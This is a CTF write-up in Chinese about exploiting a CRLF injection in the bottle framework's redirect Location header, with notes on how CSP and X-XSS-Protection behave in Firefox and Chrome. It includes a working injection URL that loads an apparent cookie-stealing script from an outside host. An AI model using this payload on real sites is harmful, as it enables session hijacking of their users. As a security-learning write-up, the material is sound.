

一个CLRF头注入的题目，很有意思，也看了很多别人的解法，测试了X-XSS-Protection的作用，这里写一下自己的想法。
题目描述
hint1: /3 /10
hint2: firfoxdriver
解题思路
解题尝试
bottle是一个python模块，出现过头注入的漏洞CVE-2016-9964，具体参考p师傅的文章https://www.leavesongs.com/PENETRATION/bottle-crlf-cve-2016-9964.html。发现这个题目在登陆成功之后有一个303的跳转，redirect会在Headers中加入Location: url，可能出现CLRF注入

因为Location并不为空，所以浏览器会自动跳转，但是当跳转url的端口号小于80就不会跳转，我们使用http://http://39.107.124.151:1000/path?path=http://127.0.0.1:0/%0D%0A%0D%0A%3Cscript+src=http://donky.top/js/cookie.js%3E%3C/script%3E查看%0D%0A%0D%0A之后成功注入script标签，而且的script标签后的header也变成了body。hint为firefoxdriver，我们在Firefox中测试。
外部js被CSP阻拦了。队友@srpopty一开始准备注入Content-Security-Policy: default-src *来覆盖原来header的CSP，可是CSP是按照最严格的实施的。
关于X-XSS-Protection
赛后看来很多的WP，发现有很多使用X-XSS-Protection: 0，查看文档X-XSS-Protection
可以看到这个header只支持IE，Chrome，Safari，并不支持Firefox，再看一下语法
接着我在Chrome中测试
同时设置CSP和X-XSS-Protection: 0时，CSP还是生效了
当不设置CSP时，我们执行简单的alert(1)时
发现弹窗成功，X-XSS-Protection:0只可以把浏览器自带的XSS Filtter杀掉，并不能够kill CSP
正确解法
其实按照出题人意图，bottle每次启动会将header随机排列，根据hint提示隔段时间就认为地将CSP放到Location下面，然而我在第一天试了很多次都没有这种情况。可能出题人并没有设置好，第二天直接将CSP放到Location下了，这样就可以直接XSS了。。。